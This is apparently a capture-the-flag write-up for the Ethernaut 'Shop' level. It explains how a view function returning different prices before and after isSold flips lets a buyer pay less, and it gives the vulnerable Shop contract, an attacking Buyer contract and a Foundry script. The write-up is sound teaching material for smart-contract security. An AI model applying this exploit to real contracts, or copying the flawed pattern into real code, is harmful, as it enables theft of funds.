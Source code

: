 # Ethernaut Level 21 Shop

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBuyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        IBuyer _buyer = IBuyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

We have to make price lower than the initial 100 value after calling the `buy()` function in the `Shop` contract. Notice that we use the `_buyer.price()` to first get into the `if` condition and then update the `price`. In `IBuyer` interface, we can see that this `price()` function is actually a `view` function, which means that it cannot change the state in the contract, but it can still read the states. So a simple attack can be implemented inside this `price()` function: if `isSold` is `false`, function returns normal price; if `isSold` is `true`, function returns a much lower price. During this process, we only read the state of the contract, but never changed any state variables.

`Buyer.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Shop} from "./Shop.sol";

contract Buyer {
    Shop shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function price() external view returns (uint256) {
        if (shop.isSold()) {
            return 1;
        } else {
            return 100;
        }
    }

    function buy() external {
        shop.buy();
    }
}
```

`Shop.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Buyer} from "../src/Buyer.sol";

contract ShopScript is Script {
    function run() external {
        vm.startBroadcast();
        Buyer buyer = new Buyer(0xXXXXXXXX);
        buyer.buy();
        vm.stopBroadcast();
    }
}
```

